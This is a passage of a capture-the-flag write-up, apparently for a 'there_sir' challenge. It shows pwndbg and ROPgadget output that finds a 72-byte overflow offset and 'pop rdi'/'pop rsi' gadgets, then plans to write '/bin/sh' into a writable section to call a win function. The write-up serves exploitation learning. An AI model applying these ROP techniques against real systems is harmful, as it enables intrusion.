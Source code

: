 ```
 RDX  0x400
 RDI  0
 RSI  0x7fffffffd7c0 ◂— 0x6161616161616161 ('aaaaaaaa')
 R8   0x7fffffffd750 ◂— 0
 R9   0x7ffff7fca1a0 (_dl_fini) ◂— endbr64 
 R10  0
 R11  0x246
 R12  1
 R13  0
 R14  0x7ffff7ffd000 (_rtld_local) —▸ 0x7ffff7ffe2f0 ◂— 0
 R15  0x403e18 (__do_global_dtors_aux_fini_array_entry) —▸ 0x4011e0 (__do_global_dtors_aux) ◂— endbr64 
 RBP  0x6161616161616169 ('iaaaaaaa')
 RSP  0x7fffffffd808 ◂— 0x616161616161616a ('jaaaaaaa')
 RIP  0x40134a (vuln+101) ◂— ret 
...[SNIP]...
pwndbg> cyclic -l jaaaaaaa
Finding cyclic pattern of 8 bytes: b'jaaaaaaa' (hex: 0x6a61616161616161)
Found at offset 72
```

To pass the expected parameters to `win`, we'll need  `pop rdi` and `pop rsi` gadgets.

Our `pop rdi` gadget is at `0x401381`.
```
(ctfvenv) benkyou@fedora:~/Dev/bbctf/there_sir$ ROPgadget --binary ./chall | grep rdi
0x0000000000401381 : pop rdi ; ret
```

Our `pop rsi` gadget is at `0x401383`.
```
(ctfvenv) benkyou@fedora:~/Dev/bbctf/there_sir$ ROPgadget --binary ./chall  | grep rsi
0x0000000000401383 : pop rsi ; ret
```

Because the version of libc was never given for this challenge, we can't find the address of "/bin/sh" to store in `rsi`.
~~I did try guessing multiple common versions of libc, but didn't work :D~~

Instead, we need to write "/bin/sh" to a writable memory section in the program, and point its address to `rsi`.
To do this, we'll need to use the `read` gadget in the program to write to the memory section.

To find writable sections, you can use `objdump -h`.
```
root@a4026eb3f513:/ctf# objdump -h ./chall
./chall:     file format elf64-x86-64

Sections:
Idx Name          Size      VMA               LMA               File off  Algn
...[SNIP]...
 19 .init_array   00000008  0000000000403e10  0000000000403e10  00002e10  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 20 .fini_array   00000008  0000000000403e18  0000000000403e18  00002e18  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 21 .dynamic      000001d0  0000000000403e20  0000000000403e20  00002e20  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 22 .got          00000010  0000000000403ff0  0000000000403ff0  00002ff0  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 23 .got.plt      00000058  0000000000404000  0000000000404000  00003000  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 24 .data         00000010  0000000000404058  0000000000404058  00003058  2**3
                  CONTENTS, ALLOC, LOAD, DATA
 25 .bss          00000030  0000000000404070  0000000000404070  00003068  2**4
                  ALLOC
 26 .comment      0000002b  0000000000000000  0000000000000000  00003068  2**0
```